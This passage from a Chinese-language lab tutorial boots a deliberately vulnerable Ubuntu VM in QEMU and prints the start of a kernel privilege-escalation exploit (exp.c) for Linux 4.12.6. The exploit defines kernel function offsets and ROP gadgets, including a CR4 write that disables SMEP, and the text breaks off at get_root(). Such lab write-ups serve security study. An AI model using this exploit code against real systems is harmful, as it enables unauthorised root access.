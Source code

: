 运行start.sh（此脚本将会启动 QEMU 虚拟机并加载存在漏洞的 Ubuntu 系统镜像，以便进行后续的漏洞利用测试。）

```
./start.sh
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c025ddb6cdc8481a990e169c8eb46466.png#pic_center)

在虚拟机启动后，输入以下命令确认当前用户权限：

```
whoami
id
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/2e2df6d471ef45f4b70e80eb2be11a70.png#pic_center)

进入包含漏洞利用程序的 `exp` 目录，然后能够看到 `exp.c` 文件，这是实际的漏洞利用程序。可以使用以下命令查看文件内容：

```
cd exp/
ls
cat exp.c
```



```c
// $ gcc -static -masm=intel ./exp.c -o ./exp  
// version: Linux-4.12.6
#define _GNU_SOURCE
#include <assert.h>
#include <errno.h>
#include <fcntl.h>
#include <sched.h>
#include <stdarg.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#include <linux/socket.h>
#include <netinet/ip.h>
#include <sys/klog.h>
#include <sys/mman.h>
#include <sys/utsname.h>

// Will be overwritten if ENABLE_KASLR_BYPASS is enabled.
unsigned long KERNEL_BASE =		0xffffffff81000000ul;
// Used to get root privileges.
#define COMMIT_CREDS			(KERNEL_BASE + 0xa49e0)				// ffffffff810a49e0 T commit_creds
#define PREPARE_KERNEL_CRED		(KERNEL_BASE + 0xa4db0)				// ffffffff810a4db0 T prepare_kernel_cred

#define XCHG_EAX_ESP_RET		(KERNEL_BASE + 0x4AD63)				// 0xffffffff8100009c: xchg eax, esp; ret; 	.text:FFFFFFFF8104AD63		setz    r11b 
#define POP_RDI_RET			(KERNEL_BASE + 0x23c9bd)				// 0xffffffff8123c9bd: pop rdi; ret; 
#define MOV_CR4_RDI_RET			(KERNEL_BASE + 0x20280)				// 0xffffffff81020280: mov cr4, rdi; pop rbp; ret; 

#define swapgs_addr (KERNEL_BASE + 0x63534) // 0xffffffff81063534: swapgs; pop rbp; ret; 
#define iret_addr (KERNEL_BASE + 0x454e44) // 0xffffffff81454e44: iretq; ret 0xfff; 

void get_root(){
```